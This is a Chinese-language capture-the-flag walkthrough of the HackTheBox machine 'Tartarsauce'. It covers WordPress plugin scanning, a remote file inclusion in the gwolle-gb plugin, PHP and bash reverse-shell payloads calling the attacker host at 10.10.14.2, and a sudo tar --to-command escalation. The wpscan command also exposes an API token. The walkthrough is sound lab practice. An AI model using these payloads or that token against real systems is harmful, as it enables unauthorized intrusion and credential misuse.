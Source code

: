 # Tartarsauce

**tartarsauce是hackthebox上中等难度的靶机**



- 首先nmap扫描端口

![image-20211106235047726](http://cdn.mxrblog.cn/image-20211106235047726.png)

- 只开启了80端口

- 打开web浏览器查看web端口，发现只显示一饮料瓶

![image-20211107013804346](http://cdn.mxrblog.cn/image-20211107013804346.png)

- 进行目录扫描

![image-20211107021610267](http://cdn.mxrblog.cn/image-20211107021610267.png)

- 查看wp插件漏洞

`sudo wpscan --url http://10.10.10.88/webservices/wp -e vp --plugins-detection aggressive --api-token 64wEY6smCuQulgcBgg0cgstQ8urNAueZHIXAizHlNqM --max-threads 20`

![image-20211107124548765](http://cdn.mxrblog.cn/image-20211107124548765.png)

- 查看漏洞详细情况

![image-20211107140655291](http://cdn.mxrblog.cn/image-20211107140655291.png)



![image-20211107141213842](http://cdn.mxrblog.cn/image-20211107141213842.png)

- 将链接修改后使用wget或者curl拉取，并且使用nc查看响应

`http://10.10.10.88/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.2:4444`

![image-20211107143841003](http://cdn.mxrblog.cn/image-20211107143841003.png)

![image-20211107143851287](http://cdn.mxrblog.cn/image-20211107143851287.png)

- 文件包含漏洞测试成功，可以发现包含漏洞的文件是/wp-load.php
- 在攻击机器上创建一个名为wp-load.php的文件，并在文件中写入反弹shell代码

```
反弹shell
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.2/4444 0>&1'");?>
```

- 本地开启http服务

![image-20211107145202378](http://cdn.mxrblog.cn/image-20211107145202378.png)

- 再次测试并链接

![image-20211107145329575](http://cdn.mxrblog.cn/image-20211107145329575.png)

![image-20211107145348304](http://cdn.mxrblog.cn/image-20211107145348304.png)

- sudo -l 查看当前用户可执行的root命令
- 发现当前用户可以以onuma的身份执行tar命令

![image-20211107145629283](http://cdn.mxrblog.cn/image-20211107145629283.png)

- 使用tar命令进行反弹shell

`echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.2/4445 0>&1' > xxx.sh`

`tar -cvf xxx.tar xxx.sh`

`sudo  -u onuma tar -xvf xxx.tar --to-command /bin/bash`

- 获得onuma用户的shell

![image-20211107154312839](http://cdn.mxrblog.cn/image-20211107154312839.png)

- 使用pspy32脚本监控进程，发现有备份文件在定时以root身份运行，

![image-20211107161847218](http://cdn.mxrblog.cn/image-20211107161847218.png)

- 后面的太麻烦，不多做叙述。。。

